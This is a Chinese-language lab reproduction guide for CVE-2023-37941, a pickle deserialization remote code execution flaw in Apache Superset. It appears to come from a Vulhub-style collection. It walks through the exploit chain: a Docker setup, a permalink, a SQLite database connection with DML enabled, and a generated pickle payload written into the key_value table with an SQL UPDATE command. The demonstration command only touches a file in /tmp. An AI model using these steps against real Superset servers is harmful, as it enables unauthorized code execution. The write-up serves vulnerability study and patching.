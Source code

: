 # Apache Superset Python Pickle 反序列化导致远程代码执行 CVE-2023-37941

## 漏洞描述

Apache Superset 是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset 1.5 至 2.1.0 版本中存在一个 Python Pickle 反序列化漏洞（CVE-2023-37941）。该应用程序使用 Python 的 `pickle` 包来在元数据数据库中存储特定的配置数据。具有元数据数据库写入权限的已认证用户可以插入恶意的 Pickle 有效载荷，当应用程序反序列化这些数据时，会导致 Superset 服务器上的远程代码执行。

当与 [CVE-2023-27524](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-27524) 结合使用时，未经身份验证的攻击者可以先绕过身份验证，然后利用反序列化漏洞执行任意代码。

参考链接：

- https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/
- https://github.com/Barroqueiro/CVE-2023-37941
- https://forum.butian.net/share/2458

## 漏洞影响

```
1.5.0 ≤ Apache Superset ≤ 2.1.0
```

## 环境搭建

Vulhub 执行以下命令启动 Apache Superset 2.0.1 服务器：

```
docker compose up -d
```

服务启动后，可以通过 `http://your-ip:8088` 访问 Superset。默认登录凭据为 admin/vulhub。

![](images/Apache%20Superset%20Python%20Pickle%20反序列化导致远程代码执行%20CVE-2023-37941/image-20250331141749947.png)

## 漏洞复现

执行以下步骤前，假设你已经通过 [CVE-2023-27524](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-27524) 漏洞生成有效的会话 Cookie 并登录到仪表板。

![](images/Apache%20Superset%20Python%20Pickle%20反序列化导致远程代码执行%20CVE-2023-37941/image-20250331141844198.png)

首先，创建一个新的 "Dashboard"，并通过点击 "Share" 按钮生成一个永久链接，复制这个永久链接，稍后将会用到：

```
http://your-ip:8088/superset/dashboard/p/b1l723YMwWy/
```

![](images/Apache%20Superset%20Python%20Pickle%20反序列化导致远程代码执行%20CVE-2023-37941/image-20250331142016578.png)

然后，按照以下步骤创建一个新的 "Database"：

1. 导航到 "Data"→"Databases"
2. 点击 "+ Database" 添加一个新的数据库连接
3. 输入数据库名称（比如 "SQLite"）
4. 这里请填写：`sqlite+pysqlite:////app/superset_home/superset.db`
5. 展开 "Advanced" 并勾选 "Expose in SQL Lab" 和 "Allow DML"
6. 保存数据库配置

![](images/Apache%20Superset%20Python%20Pickle%20反序列化导致远程代码执行%20CVE-2023-37941/image-20250331142200063.png)

然后，使用 [CVE-2023-37941.py](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/CVE-2023-37941.py) 生成恶意 SQL 命令（`-d` 选项可以是 `sqlite`、`mysql` 或 `postgres`，表示 Superset 服务器的数据库类型，在 Vulhub 中是 `sqlite`）：

```shell
python CVE-2023-37941.py -c "touch /tmp/awesome_poc" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvYXdlc29tZV9wb2MKcDEKdHAyClJwMwou

[+] Hex encoded payload (for SQL): 
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f617765736f6d655f706f630a70310a7470320a5270330a2e' where resource='dashboard_permalink';
```

>  因为 `pickle` 反序列化的 Payload 在不同操作系统上是不同的，所以你需要在 Linux 或 MacOS 上生成 Payload。

在 SQL Lab 中执行生成的 SQL 命令：

![](images/Apache%20Superset%20Python%20Pickle%20反序列化导致远程代码执行%20CVE-2023-37941/image-20250331142503078.png)

最后，通过访问前面复制的永久链接触发反序列化：

![](images/Apache%20Superset%20Python%20Pickle%20反序列化导致远程代码执行%20CVE-2023-37941/image-20250331142540095.png)

可见，`touch /tmp/awesome_poc` 命令已成功执行：

![](images/Apache%20Superset%20Python%20Pickle%20反序列化导致远程代码执行%20CVE-2023-37941/image-20250331142646301.png)

## 漏洞修复

官方已发布补丁： https://github.com/apache/superset/commit/1d61ac17839c588bae240386443a904c8cebb4ab ，建议升级 apache-superset 到 [2.1.1](https://github.com/apache/superset/releases/tag/2.1.1) 或更高版本。
